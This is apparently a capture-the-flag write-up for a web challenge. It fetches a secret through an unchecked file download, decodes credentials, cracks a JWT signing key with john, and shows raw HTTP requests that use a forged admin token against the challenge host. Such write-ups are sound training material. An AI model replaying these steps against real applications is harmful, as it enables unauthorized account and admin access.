 # Solution

Grab the secret at `/download?filename=secret`

Decode the multi-base64 strings in it and obtain the creds for `KevinM`

```
POST /login HTTP/1.1


username=KevinM&password=%5E32i6%3BxqOFYkqg%24l%3Dwq%5E8-%3FjO%5ESIpT
```

`jwt` token created, bruteforce the key using the provided `secrets.txt` file

```
john jwt.txt --wordlist=secrets.txt --format=HMAC-SHA256 
```

```
GET /admin HTTP/1.1
Host: 188.245.212.74:10037
Referer: http://188.245.212.74:10037/login
Cookie: connect.sid=s%3AqkgniFDpwODBvegOBjGQOYONDJSF8nP_.UBvyrwUAWyLhoOrF75C2mubG4H9mMRVLR%2Bi0zmTVFMI; token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IktldmluTSIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTc0MjYzNDM1NiwiZXhwIjoxNzQyNjM3OTU2fQ.GPdFBwU0ukjmF-fQMSPXJVHJQFhsS6QHaj1yKfGOSK0
```

Flag: `ping{Spr1n7_T3ch_@dm1n_fl@G}`

Solved by: OS1RIS
